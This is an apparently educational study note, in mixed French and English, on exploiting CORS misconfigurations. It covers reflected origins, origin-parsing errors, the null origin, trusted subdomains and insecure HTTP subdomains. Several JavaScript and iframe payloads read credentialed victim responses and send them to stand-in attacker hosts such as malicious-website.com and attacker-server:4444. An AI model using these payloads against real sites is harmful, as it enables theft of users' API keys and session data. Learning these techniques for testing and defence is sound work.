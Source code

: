 # Cross-origin resource sharing (CORS)

Partage de ressources multi-origines ou partage de ressources d'origine croisée.

- [Same-origin policy (SOP)](./Same-origin%20policy.md)

- [CORS and the Access-Control-Allow-Origin response header](./CORS%20and%20the%20Access-Control-Allow-Origin%20response%20header.md)

- [Vérifications avant vol](./Vérifications%20avant%20vol.md)

# Vulnerabilities

**Black-Box Testing**

1. Map the application
2. Test the application for dynamic generation
	- Does it reflect the user-supplied ACAO header ?
	- Does it only validate on the start/end of a specific string ?
	- Does it allow the null origin ?
	- Does it restrict the protocol ?
	- Does it allow credential ?
3. One you have determined that a CORS vulnerability exist review the application's functionnality to determine how you can prove impact.

**Un serveur Web cible est vulnérable aux attaques CORS si :**

```sh
# request
Origin: https://attacker-website.com
```
Pour déterminer si CORS est activé, recherchez les en-têtes commençant par `Access-Control-Allowed` dans les en-têtes de réponse.

```sh
# response
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: https://attacker-website.com
Access-Control-Allow-Credentials: true
```

**Les vulnérabilités possibles:**

## 1. Server-generated ACAO header from client-specified Origin header
Certaines applications doivent donner accès à un certain nombre d'autres domaines.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Ces en-têtes indiquent que l'accès est autorisé à partir du domaine demandeur ( `malicious-website.com`) et que les requêtes cross-origin peuvent inclure des cookies ( `Access-Control-Allow-Credentials: true`) et sera donc traité en session. 

> **Parce que l'application reflète des origines arbitraires dans l'en-tête `Access-Control-Allow-Origin` , cela signifie qu'absolument n'importe quel domaine peut accéder aux ressources du domaine vulnérable**

Si la réponse contient des informations sensibles telles qu'une clé API ou un jeton CSRF, vous pouvez les récupérer en plaçant le script suivant sur votre site Web : 

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	};
</script>
```

Now visite the attacker web site `https://malicious-website.com/`


## 2. Errors parsing Origin headers
Erreurs lors de l'analyse des en-têtes Origin

Des règles sont souvent implémentées en faisant correspondre les `préfixes` ou `suffixes` d'URL

Par exemple, supposons qu'une application accorde l'accès à tous les domaines se terminant par : `normal-website.com`

- Un attaquant pourrait pouvoir accéder en enregistrant le domaine : `hackersnormal-website.com`

Alternativement, supposons qu'une application accorde l'accès à tous les domaines commençant par `normal-website.com`

- Un attaquant pourrait être en mesure d'accéder à l'aide du domaine : `normal-website.com.evil-user.net`

## 3. Whitelisted null origin value

Les navigateurs peuvent envoyer la valeur `Origin: null` dans l'en-tête.

Certaines applications peuvent mettre sur liste blanche l'`Origin: null` pour accompagner le développement local de l’application.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant peut générer une requête cross-origin contenant la valeur null dans l’en-tête Origine. Cela satisfera la liste blanche, conduisant à un accès inter-domaines.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
	};
</script>">
</iframe>
```

```html
<iframe style="display: none;" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var xhr = new XMLHttpRequest();
    var target_url = 'https://vulnerable-website.com/sensitive-victim-data';
    xhr.onreadystatechange = () => {
        if(xhr.readyState == XMLHttpRequest.DONE){
            fetch('http://attacker-server:4444/log?key=' + xhr.responseText);
        }
    };
    xhr.open('GET', target_url, true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>"></iframe>
```

## 4. Exploiting XSS via CORS trust relationships
> Même CORS « correctement » configuré établit une relation de confiance entre deux origines.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Un attaquant qui trouve une vulnérabilité XSS sur `subdomain.vulnerable-website.com` pourrait l'utiliser pour récupérer la clé API, en utilisant une URL telle que:

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## 5. Breaking TLS with poorly configured CORS

Supposons qu'une application qui utilise rigoureusement HTTPS mette également sur liste blanche un sous-domaine approuvé qui utilise HTTP simple.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant capable d'intercepter le trafic d'un utilisateur victime et exploiter la configuration CORS pour compromettre l'interaction de la victime avec l'application avec les étapes suivantes :


4. L'utilisateur victime effectue une requête HTTP simple.

5. L'attaquant injecte une redirection vers :

```
http://trusted-subdomain.vulnerable-website.com
```

6. Le navigateur de la victime suit la redirection.

7. L'attaquant intercepte la requête HTTP simple et renvoie une réponse usurpée contenant une requête CORS à:

```
https://vulnerable-website.com
```

8. Le navigateur de la victime fait la requête CORS, en incluant l'origine :

```
http://trusted-subdomain.vulnerable-website.com
```

9. L'application autorise la demande car il s'agit d'une origine sur liste blanche . Les données sensibles demandées sont renvoyées dans la réponse.

10. La page usurpée de l'attaquant peut lire les données sensibles et les transmettre à n'importe quel domaine sous le contrôle de l'attaquant.

> Cette attaque est efficace car même si le site utilise des mesures de sécurité comme HTTPS, n'accepte pas de connexions HTTP, et protège bien les cookies, l'attaque peut quand même réussir. 

